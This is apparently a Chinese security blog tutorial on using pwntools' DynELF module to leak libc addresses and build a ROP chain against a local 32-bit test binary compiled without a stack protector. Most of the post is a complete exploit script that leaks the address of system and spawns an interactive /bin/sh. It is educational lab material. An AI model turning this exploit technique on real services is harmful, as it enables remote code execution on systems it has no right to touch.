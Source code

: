 ```yaml
---
layout: post
title: "[pwn] DynELF && ROP"
---
```


#### 0x00 前言 ####

- 环境： kali 2016.2  32位
- 工具： pwntools peda

安全机制只开启了NX和ASLR，其他都关闭

	echo 2 > /proc/sys/kernel/randomized_va_space

	gcc -g -fno-stack-protector -o vul vul.c

vul.c的内容同[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)中使用的相同。

#### 0x01 漏洞利用 ####

在[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)我们介绍的ROP方法，是通过获取到程序使用的对应so文件，计算函数的偏移，再配合泄漏出一个函数的内存地址，可以计算出`system`的地址和`/bin/sh`的字符串地址，最后构造`ROP`获取`shell`

但是有些情况下我们并无法获取到程序所使用的`so`库文件，此时我们可以借用`pwntools`中提供的`DynELF`模块进行内存地址的爆破，前提是我们可以控制目标程序去泄漏内存地址(这个是关键)，漏洞的原理还是和[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)一样。

利用脚本的核心为：

<pre>e = DynELF(leak, elf=ELF('./vul'))   # 初始化DynELF模块</pre>

其中的leak为主要的暴力破解的函数

<pre>def leak(address):
    payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data</pre>

最后使用`lookup`来破解需要的函数地址

<pre>e.lookup('__libc_system', 'libc')</pre>


整合的利用脚本：

<pre>#!/usr/bin/python

from pwn import *

#p = process('./vul')
p = remote('127.0.0.1', 10000)
elf = ELF('./vul')

# debug
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
#gdb.attach(proc.pidof(p)[0])

payload_len = 140
write_plt_addr = elf.plt['write']
read_plt_addr = elf.plt['read']
main = elf.symbols['main']
print "[*] main address is " + hex(main)
vul_addr = elf.symbols['vul_func']
print "[*] vul_func address is " + hex(vul_addr)

def leak(address):
    payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data

d = DynELF(leak, elf=elf)
system_addr = d.lookup('__libc_system', 'libc')
print "[+] Use DynELF to search system address is " + hex(system_addr)

buff_addr = elf.symbols['__bss_start']
pppr_addr = 0x080484d9  # pop esi ; pop edi ; pop ebp ; ret
exit_addr = 0xdeadbeef

payload2 = "A"*payload_len + p32(read_plt_addr) + p32(pppr_addr) + p32(0) + p32(buff_addr) + p32(8)
payload2 += p32(system_addr) + p32(exit_addr) + p32(buff_addr)

print "[*] Begin to get shell...\n"
p.send(payload2)
sleep(1)
p.send("/bin/sh\0")

p.interactive()</pre>

ps: 本地测试的时候，一直无法运行成功，后来发现原因是由于leak函数中`payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)`，`p32(main)`不能设置为`p32(vul_func)`,目前不太肯定到底是什么原因，个人猜测可能是涉及到堆栈的一些问题。

#### 0x02 总结 ####

这篇文章中只介绍了DynELF模块的基本使用方法，对于漏洞原理并没有过多的解释，可以通过[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)做深入理解。
